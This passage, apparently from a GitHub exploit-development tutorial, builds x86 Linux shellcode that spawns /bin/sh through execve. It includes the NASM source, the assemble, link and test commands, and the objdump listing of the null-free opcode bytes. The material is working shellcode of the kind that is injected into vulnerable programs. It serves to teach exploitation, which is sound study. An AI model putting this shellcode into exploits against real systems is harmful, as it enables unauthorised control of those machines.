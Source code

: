 ###2a. Shellcode Construction

We need to write assembly that will execute the `execve(const char *filename, char *const argv[], char *const envp[]);` system call. (Assuming an x86 architecture)
##spawn_shell.nasm
```
global_start

section .text

_start:

	; PUSH 0x00000000 on the Stack
	xor eax, eax
	push eax

	; PUSH //bin/sh in reverse i.e. hs/nib//
	push 0x68732f6e
	push 0x69622f2f

	; Make EBX point to //bin/sh on the Stack using ESP
	mov ebx, esp

	; PUSH 0x00000000 using EAX and point EDX to it using ESP
	push eax
	mov edx, esp 

	; PUSH Address of //bin/sh on the Stack and make ECX point to it using ESP
	push ebx
	mov ecx, esp

	; EAX = 0, Move 11 (system call number for execve) into AL to avoid nulls in the shellcode
	mov al, 11
	int 0x80 
```

Assembly, link and test the code to ensure it spawns a shell

```
comp-name # nasm -f	elf32 spawn_shell.nasm -o spawn_shell.o
comp-name # ld spawn_shell.o -o spawn_shell
comp-name # ./spawn_shell
$
```

Now `objdump` to get the hexcode: `objdump -d spawn_shell -M intel`

```
testShell:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	50                   	push   eax
 8048063:	68 6e 2f 73 68       	push   0x68732f6e
 8048068:	68 2f 2f 62 69       	push   0x69622f2f
 804806d:	89 e3                	mov    ebx,esp
 804806f:	50                   	push   eax
 8048070:	89 e2                	mov    edx,esp
 8048072:	53                   	push   ebx
 8048073:	89 e1                	mov    ecx,esp
 8048075:	b0 0b                	mov    al,0xb
 8048077:	cd 80                	int    0x80
```
